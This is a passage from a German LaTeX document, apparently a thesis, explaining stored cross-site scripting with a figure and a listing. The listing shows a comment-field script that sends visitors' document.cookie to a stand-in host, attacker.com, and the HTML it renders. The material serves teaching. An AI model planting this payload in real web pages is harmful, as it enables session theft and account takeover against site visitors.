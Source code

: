 \begin{figure}[ht]
	\centering
	\includegraphics[width=1\linewidth]{images/medium/1_persistent_xss.png}
	\caption[Der Prozess des stored XSS-Angriffs]
	{Der Prozess des stored XSS-Angriffs \autocite{makarem2018b}}
\end{figure}

\begin{lstlisting}[caption={Beispiel für stored XSS Attacke},label=stored_xss_example]
POST "http://website/post-comment",
body{"<script>window.location='http://attacker.com/?cookie='+document.cookie</script>}


Latest Comment: "<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> Previous Comment: </h1>
		Sandwiches are delicious
	<h1> Latest Comment: </h1>
	<script>
		window.location='http://attacker.com/?cookie='+document.cookie
	</script>
</html>

GET "http://attacker.com/?cookie=user-cookie"
\end{lstlisting}

Durch diese Zeile JavaScript Code im Kommentarfeld wird nun jedes Mal, wenn diese Seite geladen wird, das Skript, welches auf attacker.com gehostet wird, ausgeführt.

Diese Art von XSS Angriff kann eine große Menge an Opfer finden, denn verteilt man den Link von der angeblich sicheren Seite, gefährdet dies jeden Besucher, ganz egal wie vorsichtig dieser sonst auch ist. Aus der Sicht von Bob ist es um einiges schwieriger eine dauerhafte XSS Attacke durchzuführen, weil er nicht nur eine Schwachstelle in der Web-Anwendung finden muss, sondern auch eine Web-Anwendung, welche einen großen Pool an Nutzern hat. Stimmen jedoch diese zwei Punkte überein, kann sehr großflächiger Schaden entstehen.

